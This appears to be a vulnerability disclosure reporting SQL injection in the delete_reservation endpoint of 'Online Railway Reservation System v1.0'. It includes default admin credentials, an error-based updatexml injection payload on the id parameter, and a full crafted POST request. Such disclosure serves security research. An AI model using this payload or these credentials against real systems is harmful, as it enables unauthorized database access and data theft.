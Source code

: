 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/classes/Master.php?f=delete_reservation

Vulnerability location: /orrs/classes/Master.php?f=delete_reservation, id=

Current database name: orrs_db,length is 7

[+] Payload:  id=8' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /orrs/classes/Master.php?f=delete_reservation HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/orrs/admin/?page=reservations
Content-Length: 65
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close

id=8' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/172339128-c40a9b30-585b-4e5b-9fc1-75bc3bd0e510.png)
